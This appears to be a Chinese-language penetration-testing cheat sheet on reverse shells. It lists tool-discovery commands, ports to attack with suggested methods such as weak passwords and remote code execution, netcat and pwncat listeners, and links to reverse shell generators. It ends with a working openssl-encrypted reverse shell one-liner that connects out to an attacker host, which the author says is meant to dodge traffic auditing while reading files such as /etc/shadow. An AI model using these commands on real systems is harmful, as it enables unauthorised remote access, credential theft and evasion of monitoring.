 # 反弹shell

## 测试可以用于反弹shell的命令

```
which nc sh bash python python3 php exec lua perl ruby
```

## 常见的可以反弹shell的端口：

TCP端口：

- 80 (HTTP)：尝试使用常见的Web应用程序漏洞，如远程代码执行漏洞。
- 443 (HTTPS)：尝试使用SSL/TLS漏洞或Web应用程序漏洞。
- 22 (SSH)：尝试使用SSH漏洞或弱密码进行攻击。
- 23 (Telnet)：尝试使用Telnet漏洞或弱密码进行攻击。
- 3389 (RDP, 远程桌面协议)：尝试使用RDP漏洞或弱密码进行攻击。

UDP端口：

- 53 (DNS)：尝试使用DNS漏洞或缓存投毒攻击。
- 161 (SNMP)：尝试使用SNMP漏洞进行攻击。

# 1、监听接收shell

## NC
```
nc -lp 4444
nc -nlvp 1234
```
## pwncat
```
pwncat -lp 1234
```

# 2、反弹shell playlad

## 反弹 Shell 生成器

[https://www.hyhforever.top/revshell/](https://www.hyhforever.top/revshell/)

[https://forum.ywhack.com/shell.php](https://forum.ywhack.com/shell.php)

## openssl流量加密反弹shell

这个其实之前也知道，单习惯性更多的还是bash直接反弹，但考虑到目标网络流量审计的情况，对于如/etc/shadow等敏感文件的读取，还是采用流量加密为好，一并记录。

```
#生成证书
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes

#服务端监听
openssl s_server -quiet -key key.pem -cert cert.pem -port 443

#客户端反弹
mkfifo /tmp/z; /bin/bash -i < /tmp/z 2>&1 | openssl s_client -quiet -connect x.x.x.x:443 > /tmp/z; rm -rf /tmp/z
```
